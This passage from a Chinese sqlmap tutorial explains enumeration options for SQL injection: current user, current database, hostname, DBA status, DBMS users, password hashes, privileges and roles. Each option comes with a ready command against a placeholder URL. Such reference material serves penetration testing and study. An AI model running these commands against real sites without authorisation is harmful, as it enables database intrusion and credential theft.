 ```
sqlmap -u "http://xxx.com/xxx.php?id=1" --current-user
```



## 0x37 --current-db
获取当前数据库

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --current-db
```



## 0x38 --hostname
获取当前主机名

```
sqlmap -u "http://xxx.com/xxx.php?id=1"  --hostname
```



## 0x39 --is-dba

探测当前用户DBA，是否是数据库管理员。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --is-dba
```



## 0x3a --users

枚举DBMS用户，获取DBMS所有用户。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --users
```



## 0x3b --password

枚举DBMS用户密码。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --password
```



## 0x3c --privileges、--role
- --privileges 枚举DBMS权限
- --role 枚举DBMS角色

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --role
```
